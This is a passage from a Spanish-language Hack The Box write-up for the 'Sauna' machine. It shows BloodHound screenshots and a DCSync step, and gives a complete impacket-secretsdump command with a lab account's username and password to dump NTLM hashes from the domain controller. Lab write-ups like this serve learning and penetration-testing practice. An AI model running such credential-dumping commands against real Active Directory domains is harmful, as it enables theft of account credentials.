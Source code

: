 <img  src="/assets/images/htb-writeup-sauna/bloodhound.png" style="width:100%; border-radius:5px; display: block; margin-left: auto;  margin-right: auto;">

Al hacer click derecho y seleccionando la opcion de **ayuda**, bloodhound brinda mas información sobre como ejecutar de dicho ataque.

<img  src="/assets/images/htb-writeup-sauna/blood_info.png" style="width:75%; border-radius:5px; display: block; margin-left: auto;  margin-right: auto;">

## DCSync - secretsdump
Una forma de hacer un ataque DCSYnc es usando la utilidad **secretsdump** de impacket, esta es una forma menos intrusiva aunque genera tráfico en la red.<br>
**Comando:**<br>
impacket-secretsdump -just-dc-ntlm EGOTISTICAL-BANK.LOCAL/svc_loanmgr:Moneymakestheworldgoround\!@10.10.10.175
